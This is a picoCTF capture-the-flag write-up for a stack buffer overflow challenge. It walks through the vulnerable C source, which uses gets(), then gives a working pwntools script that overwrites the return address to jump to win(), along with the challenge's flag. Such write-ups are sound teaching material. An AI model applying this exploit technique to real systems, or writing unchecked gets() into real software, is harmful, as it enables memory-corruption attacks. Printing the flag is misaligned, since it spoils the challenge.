

Let's start by breaking down the source code.

## vuln.c

This section contains our buffer size that we will attempt to overflow and our win() function that we will direct the program to.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32 //our overflow size-ish
#define FLAGSIZE 64

void win() {	//the target return function
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

This section contains the vuln() function that uses gets(buf) which is the vulnerability we will take advantage of. There is no check on the size of buffer the program is receiving so we should be able to fill it up enough to hit the return address on the stack then put the address of the win() function instead. That way when the program returns from vuln() it goes to win() instead of back to main.
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Our strategy will work as follows

1. Find the buffer amount to control the return pointer (EIP)
2. Find the address of the win() function
3. Build a payload consisting of buffer+win function
4. Send payload

We will use pwntools to do most of the work and write a python script seen below to acquire the flag

```python
#!/usr/bin/env python

from pwn import *
import sys

argv = len(sys.argv)

#get win_addr
e = ELF('./vuln')
win = e.symbols['win']

#start process locally or remotely based on args given
if argv > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613')
else:
	p = process('./vuln')
'''
pwn cyclic 50 | strace ./vuln
pwn cyclic -l 0x6161616c
44
'''
#set buf amount
buf = 44 

#build payload
payload = ''
payload+= 'A'*buf
payload+=p32(win)

#send exploit and start interactive mode
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{addr3ss3s_ar3_3asy3656a9b3}
</details>